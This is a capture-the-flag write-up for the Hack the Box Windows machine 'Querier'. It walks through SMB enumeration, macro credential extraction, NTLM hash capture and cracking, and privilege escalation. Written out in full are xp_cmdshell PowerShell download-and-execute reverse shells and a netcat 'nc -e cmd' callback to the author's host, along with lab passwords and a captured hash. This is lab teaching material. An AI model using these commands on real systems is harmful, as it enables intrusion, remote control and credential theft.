---

title: Querier
tags: windows
description: Write-up for Hack the Box - Querier

---


## Overview

Querier is a Windows Server box running Microsoft SQL Server 2017. I was able to gain initial foothold by leveraging credentials found in an excel spreadsheet found by accessing an open smb share. The credentials were used to connect to sql via a command line tool which was used to run xp_dirtree to capture the sql service account (mssql-svc) hash with responder. I was able to successfully crack the hash for the service account and connect to sql again with permissions to enable xp_cmdshell. Using xp_cmdshell I was able to create a reverse shell allowing access the box. I ran PowerUp and found the administrator password stored in a group policy file. I was then able to use those credentials with evil-winrm to get a shell as administrator. Another result from PowerUp showed an alternative method for privilege escalation using the Invoke-ServiceAbuse function. Invoke-ServiceAbuse was used to run a command under the context of the 'USOSvc' service account and gain a shell as 'nt authority\system'.

## Enumeration

**Software**

* Microsoft Windows Server 2019 Standard 10.0.17763 N/A Build 17763
* Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64)

**Port Scan***

```
nmap -sT -A -p- -v 10.10.10.125 -oN _full_tcp_nmap.txt
```

* 445/tcp - smb
* 135/tcp - Windows RPC
* 139/tcp - netbios-ssn
* 1433/tcp - mssql
* 5985/tcp - winrm
* 47001/tcp - http
* 49664/tcp - Windows RPC
* 49665/tcp - Windows RPC
* 49666/tcp - Windows RPC
* 49667/tcp - Windows RPC
* 49668/tcp - Windows RPC
* 49669/tcp - Windows RPC
* 49670/tcp - Windows RPC
* 49671/tcp - Windows RPC

**SMB Map**

```
smbclient -L //10.10.10.125 -N
```

```
[+] IP: 10.10.10.125:445    Name: querier                                           
    Disk                                                      Permissions
    ----                                                      -----------
    ADMIN$                                                NO ACCESS
    C$                                                    NO ACCESS
    IPC$                                                  READ ONLY
    Reports                                               READ ONLY
```

## Steps (user)

Looking at the smb shares there was only one that isn't there by default - Reports. 

```
smbclient //10.10.10.125/reports -N
```



Browsing to this share showed a single excel filed called 'Currency Volume Report.xlsm'. I downloaded it to take a look.

```
mget "Currency Volume Report.xlsm"
```



Opening the document I received a warning about macros which was interesting so I went to tools | macros | edit macros to take a look. I came across some code included a connection string containing a username and password. **reporting:PcwTWTHRwryjc$c6**



Using Impacket's mssqlclient.py I connected to the database using the credentials found in the excel spreadsheet.

```
~/tools/impacket/examples/mssqlclient.py 'reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth
```



I ran some commands but did not find any useful information and the volume database looked to be empty

List users

```
select NAME from master..syslogins
```



List databases

```
select Name from master..sysdatabases
```



List all tables in database 'volume' 

```
select * from information_schema.tables
```



I tried enabling xp_cmdshell which can be used to execute os commands but received an error that I did not have permission to perform this action.



However I did have the ability to run xp_dirtree. This is an extended stored procedure used to list files and folders and can be used along with responder to capture hashes.

I started responder specifying the tun0 interface to listen on.

```
responder -I tun0
```

From the mssql session I ran xp_dirtree and specified the UNC path to my box and successfully captured the hash for service account: **mssql-svc**

```
xp_dirtree "\\10.10.14.17\share"
```



```
[SMB] NTLMv2-SSP Client   : 10.10.10.125
[SMB] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMB] NTLMv2-SSP Hash     : mssql-svc::QUERIER:f97a300da97ff3b4:18F59F380C8A423816FD150517D46C9C:0101000000000000C0653150DE09D2018A9DE404451DCBDE000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000000000000300000278ED8F7EF7D293F40D5865C093423B3179A70BA8F58D2956100F5DA51ED03D90A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003700000000000000000000000000
```

I copied the hash to a file called 'hash.txt' and fed it into hashcat setting it to use the rockyou wordlist and -m 5600 for NetNTLMv2. 

> A nice write-up called [LM, NTLM, Net-NTLMv2, oh my!](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)  that does a good job of explaining the differences between the hashes. 

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```



I was now able to connect to the sql server using mssql-svc:corporate568 and this account had permission to enable xp_cmdshell.



```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

As a test I pinged my box first, I ran tcpdump specifying my tun0 interface and to only listen for icmp.

```
sudo tcpdump -i tun0 icmp
```

I then ran xp_cmdshell along with the command to ping my machine once.

```
EXEC xp_cmdshell 'ping -n 1 10.10.14.21'
```

I received a ping from the target which confirmed that I was able to run commands and communicate outbound to my box.



Nishang's Invoke-powerShellTcp was copied to my local working directory

```
cp ~/tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

I set up python http server (python3 -m http.server 80), re-enabled xp_cmdshell (resets every so often) and ran the command to create a reverse shell.

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXEC xp_cmdshell 'powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString("""http://10.10.14.21/Invoke-PowerShellTcp.ps1""");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 4200"'
```

I received a callback and shell as user mssql-svc



## Steps (root/system)

I copied PowerUp.ps1 to my working directory to look for potential privilege escalation paths

> As stated by the creator, [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations

```
cp ~/tools/PowerSploit/Privesc/PowerUp.ps1 .
```

I started a python http server (python3 -m http.server 80) on my box and called Invoke-Expression from the target to run PowerUp.Ps1 in memory, calling the Invoke-AllChecks function.

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.21/PowerUp.ps1');Invoke-AllChecks"
```

There were a number of results including a username and password that was found in group policy file. **administrator:MyUnclesAreMarioAndLuigi!!1!**



I then used evil-winrm with thw new credentials and got a shell as administrator



## Steps (root/system - alternate #1)

Going back to the PowerUp results, there was another privilege escalation path using 'usosvc' which had weak permissions. Using Invoke-ServiceAbuse I was able to set the service to execute a netcat command to create a reverse shell.



I created a share using impacket's smbserver.py in prepration to transfer files

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd` -smb2support
```

I copied nc.exe to the target

```
copy \\10.10.14.21\share\nc.exe
```



I once again used IEX to run PowerUp.ps1 in memory, calling the Invoke-ServiceAbuse function. I specified the vulnerable service name (usosvc) and the command to create a reverse shell with netcat.

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.21/PowerUp.ps1');invoke-serviceabuse -name 'UsoSvc' -force -command 'c:\users\mssql-svc\nc.exe -e cmd 10.10.14.21 4201'"
```

I received a callback with shell as 'nt authority\system'



## Steps (root/system - alternate #2)

There is another privilege escalation path that can be accomplished by adding mssql-svc to the local administrators group. Because of [UAC Remote Restrictions](https://support.microsoft.com/en-us/help/951016/description-of-user-account-control-and-remote-restrictions-in-windows) there was another step required before I could log on via evil-winrm.

Once the reverse shell was established, I added mssql-svc to the local administrators group

```
Invoke-ServiceAbuse -name 'UsoSvc' -force -command 'net localgroup administrators mssql-svc /add'
```

I then had to disable UAC Remote Restrictions

```
invoke-serviceabuse -name 'UsoSvc' -force -command 'cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1'
```

And I could establish a connection via evil-winrm with the mssql-svc account with full administrator access.


